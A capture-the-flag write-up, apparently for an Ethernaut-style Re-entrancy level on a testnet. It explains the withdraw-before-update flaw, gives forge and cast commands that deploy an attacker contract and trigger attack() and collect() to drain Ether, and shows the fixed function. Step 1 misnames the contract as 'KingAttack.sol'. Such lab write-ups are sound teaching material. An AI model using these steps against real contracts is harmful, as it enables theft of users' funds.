 # Re-entrancy

Steal all the funds from the contract.

## Vulnerability

In Solidity, a `fallback` function is a function that is executed when a contract receives Ether along with data that does not match any of the other functions in the contract. If no such function exists, but the contract does receive Ether, then the fallback function is executed. It's also executed if someone just sent Ether to the contract without providing any data.

The contract is vulnerable to a reentrancy attack due to the way the withdraw function is implemented. In the `withdraw` function, you send Ether to `msg.sender` and then subtract the withdrawn amount from `balances[msg.sender]`. This allows for a reentrancy attack, where the fallback function of the attacker's contract calls `withdraw` again before the first call to `withdraw` has finished. This can drain the contract's Ether.

## Attack

1. Deploy `KingAttack.sol`

```bash
forge script script/DeployReentrancyAttack.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# make deploy ARGS="--network sepolia"
# https://sepolia.etherscan.io/address/0xE6C6Bb5660a038B4Fd1a50828CEEecA9d08D1739
```
2. Attack

```bash
cast call $CONTRACT_ADDRESS "owner()" --rpc-url $ALCHEMY_RPC_URL --legacy
cast send $CONTRACT_ADDRESS "attack()" --value 0.001ether --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
cast send $CONTRACT_ADDRESS "collect()" --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
```

### Fix

The balance must be subtracted before the Ether is sent. This prevents a reentrant call from withdraw being able to withdraw more Ether than the caller is entitled to.

```bash
function withdraw(uint256 _amount) public {
    require(balances[msg.sender] >= _amount, "Insufficient balance");

    balances[msg.sender] = balances[msg.sender].sub(_amount);

    (bool result,) = msg.sender.call{value: _amount}("");
    require(result, "Transfer failed");
}
```
